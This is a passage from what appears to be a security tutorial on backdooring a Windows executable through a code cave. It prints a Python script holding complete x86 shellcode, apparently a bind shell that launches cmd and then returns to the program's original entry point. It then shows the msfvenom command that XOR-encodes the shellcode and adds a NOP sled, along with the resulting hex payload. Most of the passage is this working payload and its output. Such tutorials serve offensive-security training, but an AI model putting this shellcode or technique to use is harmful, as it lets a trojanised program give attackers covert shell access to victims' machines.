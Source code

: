 ![](/assets/img/Code_Cave_II/29.png)

As seen on the image, the second opcode of the JMP, BA, has been replaced for 89, meaning that this is the byte that should be replaced in our custom.py.

Python script (the only arranged change is at the five last hex characters):

```term
root@whitecr0wz:~# cat custom.py 

shellcode = (

"\x60\x9C\xFC\xE8\x82\x00\x00\x00\x60\x89\xE5\x31\xC0\x64\x8B\x50\x30\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x0F\xB7\x4A\x26\x31\xFF\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x01\xC7
\xE2\xF2\x52\x57\x8B\x52\x10\x8B\x4A\x3C\x8B\x4C\x11\x78\xE3\x48\x01\xD1\x51\x8B\x59\x20\x01\xD3\x8B\x49\x18\xE3\x3A\x49\x8B\x34\x8B\x01\xD6\x31\xFF\xAC\xC1\xCF\x0D\x01\xC7\x38\
xE0\x75\xF6\x03\x7D\xF8\x3B\x7D\x24\x75\xE4\x58\x8B\x58\x24\x01\xD3\x66\x8B\x0C\x4B\x8B\x58\x1C\x01\xD3\x8B\x04\x8B\x01\xD0\x89\x44\x24\x24\x5B\x5B\x61\x59\x5A\x51\xFF\xE0\x5F\x
5F\x5A\x8B\x12\xEB\x8D\x5D\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5F\x54\x68\x4C\x77\x26\x07\xFF\xD5\xB8\x90\x01\x00\x00\x29\xC4\x54\x50\x68\x29\x80\x6B\x00\xFF\xD5\x6A\x08\x59\x5
0\xE2\xFD\x40\x50\x40\x50\x68\xEA\x0F\xDF\xE0\xFF\xD5\x97\x68\x02\x00\x23\x28\x89\xE6\x6A\x10\x56\x57\x68\xC2\xDB\x37\x67\xFF\xD5\x57\x68\xB7\xE9\x38\xFF\xFF\xD5\x57\x68\x74\xEC
\x3B\xE1\xFF\xD5\x57\x97\x68\x75\x6E\x4D\x61\xFF\xD5\x68\x63\x6D\x64\x00\x89\xE3\x57\x57\x57\x31\xF6\x6A\x12\x59\x56\xE2\xFD\x66\xC7\x44\x24\x3C\x01\x01\x8D\x44\x24\x10\xC6\x00\
x44\x54\x50\x56\x56\x56\x46\x56\x4E\x56\x56\x53\x56\x68\x79\xCC\x3F\x86\xFF\xD5\x89\xE0\x90\x56\x46\xFF\x30\x68\x08\x87\x1D\x60\xFF\xD5\xBB\xF0\xB5\xA2\x56\x68\xA6\x95\xBD\x9D\x
FF\xD5\x3C\x06\x7C\x0A\x80\xFB\xE0\x75\x05\xBB\x47\x13\x72\x6F\x6A\x00\x53\x81\xC4\x00\x02\x00\x00\x9D\x61\x68\xB8\x7F\x49\x00\xE9\x89\xF0\xF5\xFF"

)

print (shellcode)
root@whitecr0wz:~# 
```

Generating the payload once again:

```term
root@whitecr0wz:~# python custom.py | msfvenom -p - --platform windows -a x86 -e x86/xor_dynamic -n 5 -f hex 
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/xor_dynamic
x86/xor_dynamic succeeded with size 393 (iteration=0)
x86/xor_dynamic chosen with final size 393
Successfully added NOP sled of size 5 from x86/single_byte
Payload size: 398 bytes
Final size of hex file: 796 bytes
f5982f933feb235b89dfb052fcae75fd89f989de8a0630074766813f723c740846803e5275eeebeaffe1e8d8ffffff275247bbdbcfa527272747aec216e743ac7717ac752bac7533ac550f28906d0116d88b1b465b250b07e
6e82a26e0c5d57570ac7537ac6d1bac6b365fc46f26f676ac7e0726f4ac6e3fc41d6eac13ac26f116d88be6e82a26e01fc752d1245adf1c5a0352c37fac7f0326f441ac2b6cac7f3b26f4ac23ac26f7ae6303037c7c467e7d
76d8c778787dac35ccaa7a4f141527274f50541578734f6b500120d8f29fb72627270ee373774f0ea74c27d8f24d2f7e77c5da677767774fcd28f8c7d8f2b04f2527040faec14d3771704fe5fc1040d8f2704f90ce1fd8d8f
2704f53cb1cc6d8f270b04f52496a46d8f24f444a4327aec470707016d14d357e71c5da41e063031b2626aa630337e127637377717171617169717174714f5eeb18a1d8f2aec7b77161d8174f2fa03a47d8f29cd79285714f
81b29abad8f21b215b2da7dcc752229c603455484d2774a6e327252727ba464f9f586e27ceaed7d2d82d723c
```
